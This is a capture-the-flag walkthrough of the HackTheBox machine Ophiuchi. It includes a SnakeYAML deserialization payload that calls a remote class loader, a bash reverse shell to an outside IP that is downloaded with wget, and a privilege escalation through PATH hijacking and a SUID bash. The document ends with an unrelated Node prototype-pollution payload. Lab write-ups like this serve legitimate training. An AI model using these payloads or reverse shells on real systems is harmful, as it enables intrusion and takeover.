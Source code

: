 # HackTheBox-Ophiuchi

## Rustscan

```bash

rustscan -a 10.10.10.227 -- -A -sC -sV             
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

Open 10.10.10.227:22
Open 10.10.10.227:8080

PORT     STATE SERVICE REASON         VERSION                                                                     
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)                
8080/tcp open  http    syn-ack ttl 63 Apache Tomcat 9.0.38
| http-methods:                                          
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Parse YAML
```

## PORT 8080 (HTTP)

<img src="https://imgur.com/nzuPNKS.png"/>

There's a YAML parser so I tried to write something there but got no response

<img src="https://imgur.com/iLjUXuF.png"/>

<img src="https://imgur.com/NuZr8ru.png"/>

From the nmap scan we already know that  Apache Tomcat 9.0.38 is running ,so I logging in by going to `/manager` ,but wasn't able to login using the default credentials

<img src="https://imgur.com/ubAjejr.png"/>

<img src="https://imgur.com/1uzKvVg.png"/>


So after googling for apache tomcat 9.0.38 vulnerabilites/exploits I found snake yaml deserilization exploit

<img src="https://imgur.com/FSSX0qu.png"/>

The exploit is about Snake YAML having a feature to call a java class constructor

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://VPN_IP/"]
  ]]
]
```

<img src="https://imgur.com/ddbSFav.png"/>

We'll see a request being made for 
`/METAINF/services/javax.script.ScriptEngineFactory` on our machine 

<img src="https://imgur.com/p7MYzlv.png"/>

We can abuse it in a way that keeping the same file structure like having directory 'META-IN' then a sub directory `services` having a file name `javax.script.ScriptEngineFactory` and in that file we will call our exploit

<img src="https://imgur.com/wI94hDk.png"/>

<img src="https://imgur.com/UPf66oB.png"/>

Create a file name `exploit.java` you can get the java code from here and in that we'll try to ping our local machine to see if the exploit works or not so that we can get a reverse shell

https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java

<img src="https://imgur.com/FhdLmnb.png"/>

Compile the java file using `javac` and you will get .class file

<img src="https://imgur.com/KhonV7r.png"/>

<img src="https://i.imgur.com/2qu18Y0.png"/>

In the `javax.script.ScriptEngineFactory` we will include this content

<img src="https://imgur.com/nO3s3pB.png"/>

And also we will make a folder `snakeyml` having that `exlpoit.class` file

<img src="https://imgur.com/xQCix5Y.png"/>

So the file structure will look like this , so start the python3 server or apache2 to host the folder and use the same java class constructor we were calling yaml

<img src="https://i.imgur.com/wmpyljd.png"/>

After sending it we receive a 500 error

<img src="https://imgur.com/0DyhoA7.png"/>

We can see the error that we compiled the java file with the latest version of `javac` so we need to comiple it using the java class 55 version. We can do this by specifying the release as a paramter in javac. (Thank you stackoverflow)

<img src="https://imgur.com/nBZ6KlB.png"/>

<img src="https://imgur.com/Ul06kBs.png"/>

Now compiling it using the release version 11 and start both the python3 web server and start listening for ICMP packets on tun0 interface

<img src="https://imgur.com/Bq8Le25.png"/>

<img src="https://imgur.com/wyJNAcg.png"/>

On giving java constructor class in yaml we will see the ICMP packets

<img src="https://imgur.com/RGc29Vt.png"/>


But there was a problem in getting a reverse shell no matter which reverse shell I tried to use whether it was a bash or netcat I couldn't get a shell so I made a script which had a bash reverse shell 

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.196/4242 0>&1
```

Now we will download the bash script on the target machine using `wget` save it in `/tmp` directory and will execute it using bash also we will setup a netcat listener. So modifying our `exploit.java` file

<img src="https://imgur.com/Rm47FzX.png"/>

Enter this in yaml parser input box

<img src="https://imgur.com/r4LZIRZ.png"/>

Once you enter this on your terminal you'll see the request being made to get `exploit.sh` and you will get a reverse shell

<img src="https://imgur.com/MLLPoav.png"/>

Stabilizing the shell using `python3`

<img src="https://imgur.com/uQrLdPw.png"/>

Since apache tomcat is running we can now search for users file 

<img src="https://imgur.com/zlIlSkR.png"/>

<img src="https://imgur.com/5PH5uC3.png"/>

Now using find command to search for that file

<img src="https://imgur.com/MsjhO2j.png"/>

<img src="https://i.imgur.com/He84Vda.png"/>

We can try to switch user as `admin` with that password on the machine

<img src="https://imgur.com/5N7BYYz.png"/>

Reading the source code we can see that it's going to read the Web assembly binary then it's going to get a value from `info` function and if that value it's not equal to 1 the program will give the ouput "Not ready to deploy" else it would execute a `deploy.sh` script.

<img src="https://imgur.com/Bq2pwMT.png"/>

There is one thing to note that `main.wasm` and `deploy.sh` don't have the absolute path in the source meaning we can make our own files and then play around with the PATH variable. So first I am going to download `main.wasm` on to my machine 

<img src="https://imgur.com/X9vGDib.png"/>


https://github.com/WebAssembly/wabt

And here will be using a tool named `WABT` Web Assembly Binary Toolkit , we need to convert the main.wasm file to .wat file as it is a text format to that binary. But before that first let's see the `info` function in the binary using wasm-decompile which will decompile the binary to C syntax 

<img src="https://imgur.com/wIXUs4r.png"/>

<img src="https://imgur.com/8Jp2bDH.png"/>

We can see that `info` function returns the value 0 so that's what we need to change. Converting .wasm to .wat file

<img src="https://imgur.com/bwKvBmO.png"/>

On opening the .wat file we can see that `const` value is 0

<img src="https://imgur.com/tkD8o2B.png"/>

So remeber the source code had a condition if `f!=1` (if f is not equal to 1) it's going to print not deploy else it will execute the `deploy.sh` script so change that 0 to 1

<img src="https://imgur.com/rJyXUXy.png"/>

Now we need that back in binary form (.wasm) so we are going to convert it from .wat to .wasm 

<img src="https://imgur.com/ReZxaUq.png"/>

Transfer this onto target machine in `/tmp` directory also to make a `deploy.sh` file. I added a command to make bash a SUID in that script file

<img src="https://imgur.com/DPFsf9J.png"/>

<img src="https://i.imgur.com/CrRofxq.png"/>

Now to add `/tmp` to PATH variable and run the golang source code as sudo

<img src="https://imgur.com/FMzjbeM.png"/>

<img src="https://imgur.com/ZECIkwq.png"/>

We can see that `/bin/bash` now has a SUID bit on this means we can get root by running bash with `-p`

<img src="https://imgur.com/wtFJtYN.png"/>

You can also get a reverse shell using netcat (OpenBSD)

<img src="https://imgur.com/PXj0QUn.png"/>

<img src="https://imgur.com/uQRWoFX.png"/>

```
{
"song": 
    { 
        "name":"Not Polluting with the boys" 
    }, 
    "__proto__.block": 
    {
        "type": "Text",
        "line": "'test'; return process.mainModule.constructor._load('fs').readdirSync('./', {encoding:'utf8', flag:'r'})",
        "val": "ARZ"
    } 
}

````

